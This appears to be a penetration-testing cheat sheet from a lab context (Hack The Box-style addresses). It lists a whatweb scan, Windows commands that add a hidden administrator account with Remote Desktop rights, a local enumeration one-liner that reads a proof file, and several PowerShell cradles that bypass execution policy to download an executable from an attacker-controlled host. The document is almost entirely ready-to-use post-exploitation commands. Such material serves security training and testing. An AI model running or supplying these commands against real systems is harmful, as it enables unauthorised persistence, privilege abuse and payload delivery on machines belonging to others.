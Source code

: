 ### Whatweb

```text
$ whatweb http://10.10.10.168:8080   
http://10.10.10.168:8080 [200 OK] Country[RESERVED][ZZ], Email[secure@obscure.htb], HTML5, HTTPServer[BadHTTPServer], IP[10.10.10.168], JQuery, Script, Title[0bscura], X-UA-Compatible[IE=Edge]

```

## Windows commands

Create admin user with RDP

```text
net user xnaaro 12345 /add
net localgroup administrators xnaaro /add
net localgroup "Remote Desktop Users" xnaaro /add
```

Quick local enumeration

```text
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```

### Downloads

Download file with powershell

* Option 1

```text
echo (New-Object System.Net.WebClient).DownloadFile("http://10.11.0.49/wget.exe", "wget.exe") > wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

* Option 2

```text
PowerShell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.49/wget.exe','wget.exe')
```

Non interactive download

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.49/wget.exe" >>wget.ps1
echo $file = "wget.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
